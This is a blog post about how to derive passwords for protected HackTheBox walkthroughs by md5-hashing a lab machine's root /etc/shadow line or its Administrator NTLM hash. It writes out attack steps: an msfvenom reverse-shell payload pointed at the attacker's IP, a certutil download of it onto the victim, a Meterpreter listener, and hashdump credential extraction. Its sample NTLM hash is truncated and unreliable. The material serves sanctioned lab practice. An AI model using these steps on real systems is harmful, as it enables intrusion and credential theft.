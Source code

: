 ```yaml
---
author: Greenjam94
categories:
- Uncategorized
ct_period_last_updated:
- default
date: "2020-07-06T08:43:30Z"
guid: https://www.hackerunder.dev/?p=890
id: 890
image: /wp-content/uploads/2019/03/abstract-code.jpg
title: Walkthrough Decryption Instructions
url: /walkthrough-decryption-instructions/
---
```



# 4/9/2022 Update:

> After migrating from WordPress to Hugo, I do not have the ability to password protect blog posts. All content will be public and because of that these decryption instructions are no longer worthwhile for https://hackerunder.dev. I will not be posting content that requires password protection. For example, I previously shared unretired hackthebox machine walkthroughs but required hashes as the password for the post.

This decryption method was copied from [0xPrashant](https://twitter.com/0xprashant) and his own [blog](http://0xprashant.github.io/pages/windows-decryption/). The page may not always be online, so I have copied the walkthrough decryption instructions from [an archived backup](https://web.archive.org/web/20200327224312/https://0xprashant.github.io/pages/decryption-instruction/). Below is a summary of how to create hashes from unique strings in a target machine with either Linux or Windows operating systems.

# Linux Machine Instructions (Using the root user hash in /etc/shadow)

When you own root on a machine you can read the content of /etc/shadow file

Simply run `cat /etc/shadow` and read the contents of the shadow file

```
cat /etc/shadow
root:$6$YIFGN9pFPOS3EmwO$qwICXAw4bqSjjjFaCT1qYscCV72BjFtx/tehbc7sQTJp09UJj9u83eBio1cLcaxyGkx2oDhJsXT6LL0FABlc5.:18277:0:99999:7:::
```


## Create a md5hash from the /etc/shadow entry

Copy whole the line for the root user  
`root:$6$YIFGN9pFPOS3EmwO$qwICXAw4bqSjjjFaCT1qYscCV72BjFtx/tehbc7sQTJp09UJj9u83eBio1cLcaxyGkx2oDhJsXT6LL0FABlc5.:18277:0:99999:7:::`

The following command converts this text to a md5 hash

`echo root:$6$YIFGN9pFPOS3EmwO$qwICXAw4bqSjjjFaCT1qYscCV72BjFtx/tehbc7sQTJp09UJj9u83eBio1cLcaxyGkx2oDhJsXT6LL0FABlc5.:18277:0:99999:7::: | md5sum`

And you get **02bece38cf6510fb40f19e7caa16e323**

This is the password for protected posts of linux machines

# Windows Machine Instructions (Using the Administrator NTLM hash)

When you own a windows machine you are allowed to get the NTLM hashes of all the users

To get the NTLM hash, use a meterpreter shell and the `hashdump` command or an alternative

## Meterpreter hashdump

Assuming you already have access to an Administrator or System level shell

Create a payload that opens a meterpreter shell with msfvenom  
`msfvenom -p windows/meterpreter/reverse_tcp lhost=<YOURIP> lport=4444 -f exe > msf.exe`

Host the payload and download it to the target Windows machine  
Attacker: `python3 -m http.server 80`  
Victim: `certutil -urlcache -split -f http://<YOURIP>/msf.exe c:/windows/temp/msf.exe`

Launch a meterpreter listener

```
kali: msfconsole
msf5> use exploit/multi/handler
msf5> set LHOST <YOURIP>
msf5> run
```

Run the msf.exe file on the victim through your shell

Once a meterpreter session is established, run `hashdump`

If you see the following error  
`[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.`  
List processes with `ps`   
Migrate to a process running as SYSTEM and try again  
`migrate <PID>`  
`hashdump`

## hashdump.exe alternative

WARNING: Hashdump.exe might not give correct NTLM hashes, use another alternative  
Download and transfer [hashdump.exe](https://t.co/qhTz78Jt0S?amp=1) to the windows machine and run it with option /samdump

```
PS C:\tmp> .\hashdump.exe /samdump
SAM hashes:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c:::
```

## Other alternatives

0xPrashant has a post on [getting the NTLM hash](https://0xprashant.github.io/pages/windows-decryption/) from a Windows machine. Besides Meterpreter he also goes over Mimikatz and Secretdump. Any option should work.

## Create a md5hash from the NTLM hash

Copy just the NTLM hash, which is the fourth entry between the colons (:)  
`31d6cfe0d16ae931b73c59d7e0c`

The following command will convert it to a md5 hash

`echo 31d6cfe0d16ae931b73c59d7e0c | md5sum`

Here we got **a8ca0fb8a398cd4268cd5baf75ec29a3**

Paste it in the writeup where it asks for password for decryption of writeup

- - - - - -

Please enjoy the password protected posts after attempting to hack the machines yourself. Use public walkthroughs of retired or older machines if you are new or looking to just follow along. It is a waste of talent to brute force the post password just to follow the steps and not hack a machine by your own ability.

Hopefully these walkthrough decryption instructions are clear and you are able to view protected posts. Feel free to reach out to me or wait for the machines to become retired and I will make the walkthroughs public. 
  
Please comment with questions or suggestions or if a machine guide is incorrect.

If a walkthrough is violating a lab’s Terms of Service or needs to be removed, please reach out to me as well at [HackerUnderDev](https://twitter.com/hackerunderdev) on Twitter.